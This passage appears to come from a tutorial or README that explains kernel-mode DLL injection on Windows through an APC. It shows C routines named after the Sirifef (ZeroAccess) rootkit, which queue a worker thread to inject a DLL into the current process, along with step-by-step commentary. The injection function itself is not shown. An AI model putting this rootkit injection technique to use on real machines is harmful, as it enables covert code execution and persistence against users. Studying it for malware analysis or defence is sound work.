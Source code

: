 ```c
VOID SirifefWorkerRoutine(PVOID Context)
{
    DllInject(((PSIRIFEF_INJECTION_DATA)Context)->ProcessId, ((PSIRIFEF_INJECTION_DATA)Context)->Process, ((PSIRIFEF_INJECTION_DATA)Context)->Ethread, FALSE);
    KeSetEvent(&((PSIRIFEF_INJECTION_DATA)Context)->Event, (KPRIORITY)0, FALSE);
    return;
}
```

The `SirifefWorkerRoutine` function acts as a worker routine responsible for triggering the DLL injection. It accepts a single `Context` parameter.

Within this function, the actual DLL injection is initiated by calling the `DllInject` function. The parameters provided include the target process's ID, the process's `EPROCESS` structure, and the process's `ETHREAD` structure. The final parameter, `FALSE`, indicates that alertable I/O is not allowed.

Once the DLL injection process completes, an event (`KeSetEvent`) is set to signal the successful injection. This event allows us to synchronize the completion of the injection process with other parts of the code.

###  DLL Injection via APC
The initiation of DLL injection takes place within the `APCInjectorRoutine` function, The `APCInjectorRoutine` function serves as the orchestrator for our DLL injection process. It commences by initializing a `SIRIFEF_INJECTION_DATA` structure, `Sf`, and scheduling a worker thread (`SirifefWorkerRoutine`) to perform the injection.

```c
VOID NTAPI APCInjectorRoutine(PKAPC Apc, PKNORMAL_ROUTINE *NormalRoutine, PVOID *SystemArgument1, PVOID *SystemArgument2, PVOID* Context)
{
    SIRIFEF_INJECTION_DATA Sf;

    RtlSecureZeroMemory(&Sf, sizeof(SIRIFEF_INJECTION_DATA));
    ExFreePool(Apc);

    // Initialize the SIRIFEF_INJECTION_DATA structure with the necessary information
    Sf.Ethread = KeGetCurrentThread();
    Sf.Process = IoGetCurrentProcess();
    Sf.ProcessId = PsGetCurrentProcessId();

    // Initialize an event to synchronize the DLL injection
    KeInitializeEvent(&Sf.Event, NotificationEvent, FALSE);

    // Initialize a work item to execute the SirifefWorkerRoutine
    ExInitializeWorkItem(&Sf.WorkItem, (PWORKER_THREAD_ROUTINE)SirifefWorkerRoutine, &Sf);

    // Queue the work item to be executed on the DelayedWorkQueue
    ExQueueWorkItem(&Sf.WorkItem, DelayedWorkQueue);

    // Wait for the DLL injection to complete
    KeWaitForSingleObject(&Sf.Event, Executive, KernelMode, TRUE, 0);

    return;
}

```
 